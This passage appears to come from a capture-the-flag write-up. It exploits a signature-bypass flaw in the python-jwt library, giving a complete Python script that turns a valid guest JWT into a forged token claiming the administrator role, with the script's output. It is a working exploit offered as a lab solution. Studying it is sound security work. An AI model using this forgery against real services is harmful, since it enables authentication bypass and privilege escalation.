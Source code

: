 And here is a test case for the vulnerability:
https://github.com/davedoesdev/python-jwt/commit/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9#diff-f3fb6499354e6fd16cb955d1f54138fa3481148f3f095467958b60b3835f3a50

Based on the test case, we can make a script to generate a token with arbitrary claims and a signature from another valid token.

Script here: [`faketoken.py`](faketoken.py)

```python
from json import dumps, loads
from jwcrypto.common import base64url_decode, base64url_encode

""" Make a forged token """
""" Use mix of JSON and compact format to insert forged claims including long expiration """

# The valid token for the guest user
[header, payload, signature] = 'eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA0MTQ1NDEsImlhdCI6MTcxMDQxMDk0MSwianRpIjoiRXFYa1JlM0taVm5MY2tmUG13VVpJUSIsIm5iZiI6MTcxMDQxMDk0MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.dindR6sdLUdJD7Q6y-Ut8XDx0-XTVKGDzI1YVd-7fMkFydE4M-8O4cltoh6KjmiArJNQrkf1cTzFgT0I6hNC0apMMz7f350e7ph5_0DWONnkuFvSuUxkVvsYwm-OuKIIW3NA2U0pGR7xJphGedcwLKel1IaR-XA9bLox4Xo96Nf_XeGn_NuOfKsKhtha5jjPYfcsxoPjpFiQvnWyupM5Tpg7ySUY3lM4c2fuRImdpejzpVqJfD9B0NAfOAw6dUalvoU_LCZYkzluOIncszohluDAGXOIwvK_2c4B0zTUanDcMYxmHIUGfXGQ07-7DGXoC5bnubVQYkr3x_QcNfUdug'.split('.')

parsed_payload = loads(base64url_decode(payload))

# Set the role to administrator
parsed_payload['role'] = 'administrator'

# Create the token
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))

print('{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}')
```

```bash
$ python3 faketoken.py
{"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA0MTQ1NDEsImlhdCI6MTcxMDQxMDk0MSwianRpIjoiRXFYa1JlM0taVm5MY2tmUG13VVpJUSIsIm5iZiI6MTcxMDQxMDk0MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTA0MTQ1NDEsImlhdCI6MTcxMDQxMDk0MSwianRpIjoiRXFYa1JlM0taVm5MY2tmUG13VVpJUSIsIm5iZiI6MTcxMDQxMDk0MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"dindR6sdLUdJD7Q6y-Ut8XDx0-XTVKGDzI1YVd-7fMkFydE4M-8O4cltoh6KjmiArJNQrkf1cTzFgT0I6hNC0apMMz7f350e7ph5_0DWONnkuFvSuUxkVvsYwm-OuKIIW3NA2U0pGR7xJphGedcwLKel1IaR-XA9bLox4Xo96Nf_XeGn_NuOfKsKhtha5jjPYfcsxoPjpFiQvnWyupM5Tpg7ySUY3lM4c2fuRImdpejzpVqJfD9B0NAfOAw6dUalvoU_LCZYkzluOIncszohluDAGXOIwvK_2c4B0zTUanDcMYxmHIUGfXGQ07-7DGXoC5bnubVQYkr3x_QcNfUdug"}
```


## Flag

Now let's use this forged token on the `/api/v1/flag` endpoint:

![Alt text](images/image-5.png)
